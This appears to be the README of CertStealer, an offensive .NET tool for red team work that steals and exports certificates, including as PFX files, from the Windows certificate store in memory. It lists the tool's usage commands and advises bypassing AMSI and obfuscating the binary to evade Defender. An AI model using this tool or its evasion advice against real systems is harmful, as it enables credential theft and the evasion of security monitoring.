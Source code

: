 # CertStealer

A .NET tool for stealing and importing certificates in the Windows certificate store without touching disk. Useful for red team operations where you need to poach a certificate for pivoting purposes and want to do so with an in-memory post-ex payload.

This tool is flagged as malware by Defender, even though it's custom. It is misidentified as some particular strain of publically known malware. As such, DO NOT run it from disk on-target. DO NOT run it in memory on target WITHOUT AMSI BYPASSED. And DO obfuscate it with a tool like ConfuserEx, just in case.


```
Examples:

Display this help message: CertStealer.exe --help
Listing all certs: CertStealer.exe --list
Listing all certs within the My store in CurrentUser: CertStealer.exe --name user --store My --list
Listing all certs within the CA store in LocalMachine: CertStealer.exe --name local --store CA --list
Exporting a cert by its thumbprint: CertStealer.exe -export AF724CB571166C24C0799E65BE4772B10814BDD2
Exporting a cert by its thumbprint as PFX: CertStealer.exe -export pfx AF724CB571166C24C0799E65BE4772B10814BDD2
Importing a cert into the My store in CurrentUser: CertStealer.exe --import My user Dw...snipped...gY=
Importing a cert into the CA store in LocalMachine: CertStealer.exe --import CA local Dw...snipped...gY=
Use verbose output (works for list and import): CertStealer.exe --list --verbose
```
